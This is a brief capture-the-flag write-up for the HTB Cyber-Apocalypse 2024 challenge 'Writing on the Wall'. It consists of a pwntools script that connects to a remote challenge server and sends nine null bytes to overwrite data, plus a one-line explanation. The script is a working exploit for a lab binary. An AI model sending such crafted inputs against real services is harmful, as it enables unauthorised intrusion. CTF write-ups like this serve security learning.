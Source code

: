 # HTB Cyber-Apocalypse 2024 - Writing on the Wall


As you approach a password-protected door, a sense of uncertainty envelops you—no clues, no hints. Yet, just as confusion takes hold, your gaze locks onto cryptic markings adorning the nearby wall. Could this be the elusive password, waiting to unveil the door's secrets?

<!--more-->

```python
from pwn import *
#nc 83.136.251.235 53824
# Start the process
#p = process('./writing_on_the_wall')
p = remote('83.136.251.235',53824)
#gdb.attach(p, gdbscript="b *main+77\n continue")

print(p.recv().decode())

# Send the payload without a newline
p.send(b'\x00\x00\x00\x00\x00\x00\x00\x00\x00')


print(p.recvall().decode())
```

## Explanation

9 null bytes to manipulate the data 

